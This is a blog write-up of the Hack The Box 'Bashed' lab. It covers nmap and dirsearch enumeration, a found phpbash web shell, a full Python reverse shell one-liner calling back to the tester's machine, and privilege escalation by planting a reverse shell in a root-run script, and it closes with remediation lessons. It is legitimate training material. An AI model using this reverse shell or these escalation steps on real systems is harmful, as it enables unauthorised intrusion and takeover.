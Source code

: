 +++
draft = false
date = 2020-06-16T16:04:02+01:00
title = "Bashed"
description = ""
slug = ""
tags = []
categories = []
externalLink = ""
series = []
weight = 4  
+++


# Machine info

- OS : Linux
- Difficulty : Easy
- Points : 20
- IP : 10.10.10.68


# Mind Map
![Bashed_MindMap](/images/htb/bashed_mindmap.png)


# Reconnaisance

Initial scan results:

{{< highlight html >}}
sudo nmap -sS -p- -n 10.10.10.68 -oA nmap/sS_full_scan
...
Nmap scan report for 10.10.10.68
Host is up (0.066s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
{{< /highlight >}}

**Note**: a full port UDP scan does not reveal any new open port.

With the `-sV` option I can see that `Apache HTTP Server 2.4.18` is running on port 80.


# Enumeration

I proceed visiting http://10.10.10.68:80.

![Bashed_Website](/images/htb/bashed_website.png)

The website owner is telling me that a tool named `phpbash` is installed on the server and that it could be very useful for pentesting. Also a link to the GitHub repository tool is given, where I can find more info about it:

> phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home.

I don't know where to look for the web shell, so I try to enumerate directories on the web server to see if I can find something:

{{< highlight html >}}
sudo python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.68/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -r -f -e php
{{< /highlight >}}
Where:
- `-w` specifies the wordlist used for enumerating the web server
- `-r` stands for recursive mode
- `-f` stands for force extensions
- `-e` for specifying the desired extension to search

After a few moments, *dirsearch* is able to find some resources on the web server:

{{< highlight bash >}}
[10:39:17] Starting:
[10:39:18] 403 -  290B  - /.php
[10:39:18] 403 -  291B  - /.html
[10:39:18] 200 -    8KB - /index.html
[10:39:18] 200 -    2KB - /images/   
[10:39:19] 200 -    8KB - /contact.html  
[10:39:19] 200 -    8KB - /about.html   
[10:39:24] 403 -  292B  - /icons/         
[10:39:31] 200 -   14B  - /uploads/       
[10:39:47] 200 -  939B  - /php/                    
[10:40:06] 200 -    2KB - /css/                
[10:40:31] 200 -    1KB - /dev/                 
[10:40:42] 200 -    3KB - /js/                
CTRL+C detected: Pausing threads, please wait...
{{< /highlight >}}


# Exploitation

The web shell is under `/dev` and I can see that I'm logged in as the `www-data` user! We're in!

# Privilege escalation

At this point I have to figure out how to obtain full access to the server.

The first thing I look for is to see if there is something I can sudo with the current user without providing a password:

{{< highlight html >}}
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
{{< /highlight >}}

I'm able to run any command with root privileges as the `scriptmanager` user!

To change current user I can use the following command:

{{< highlight html >}}
sudo -i -u scriptmanager
{{< /highlight >}}
Where:
- `-i` stands for login
- `-u` stands for users

I'm not able to do so inside the current web shell as it is not persistent, so I need to create a reverse shell to my machine in order to proceed. I'll use a **python reverse shell** obtained from the **Pentestmonkey** website:

I set up a netcat listener on my machine:

{{< highlight html >}}
nc -nlvp 4445
{{< /highlight >}}


And launch the reverse shell from the web shell:

{{< highlight python >}}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{{< /highlight >}}

I receive a connection back in a few seconds. From the new shell I'm able to change user to `scriptmanager`.

It took me a while here to understand what to do next, but at the end I found an interesting directory under `/` named `/scripts` owned by the `scriptmanager` user. Inside this directory there's a file named `test.py` (owned by *scriptmanager*) that writes into `test.txt` (owned by *root*) every minute or so. From here it is easy to get root as I only have to set up a netcat listener on my machine and insert a reverse shell code in the `test.py` file and wait for the connection!


## Lessons learned and remediations

- Never expose so easily a shell on the web server.
- Always check for misconfigurations about user permissions. Why was the `www-data` user able to run commands as `scriptmanager`?
